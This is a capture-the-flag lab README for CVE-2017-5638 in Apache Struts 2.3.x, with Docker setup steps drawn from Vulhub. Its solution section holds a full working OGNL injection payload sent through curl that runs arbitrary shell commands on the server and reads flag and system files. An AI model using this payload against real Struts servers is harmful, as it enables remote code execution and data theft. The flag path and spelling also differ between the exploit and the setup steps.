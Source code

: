# Challenge 9: Struts Apache

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates **CVE-2017-5638**, which affects Apache Struts 2.3.x.  
The vulnerability is due to incorrect exception handling and error message generation during file upload attempts, allowing attackers to execute arbitrary code by crafting a `Content-Type`, `Content-Disposition`, or `Content-Length` HTTP header while including a `#cmd=` string.

---

## Solution

To exploit the vulnerability, run:
```bash
curl -v 127.0.0.1:8011   --header "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).\
(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).\
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).\
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).\
(#context.setMemberAccess(#dm)))).\
(#cmd='cat /root/flag.txt').\
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).\
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).\
(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).\
(#process=#p.start()).\
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).\
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())"   -F "file=@/etc/passwd"
```

**Flag:**
```
FLAG{STRUCK_BY_STRUTS2}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to Struts2 S2-045 Directory
```bash
cd vulhub/struts2/s2-045
```

### 3. Start the Container
```bash
docker-compose up -d
```

### 4. Add the Flag
```bash
docker ps
docker exec -it <container_id> /bin/bash
echo "flag{STRUCK_BY_STRUTS2}" > /usr/local/tomcat/webapps/ROOT/flag.txt
```

---

## Final Notes
This challenge highlights the dangers of outdated Apache Struts installations and improper input validation, which can lead to full remote code execution.
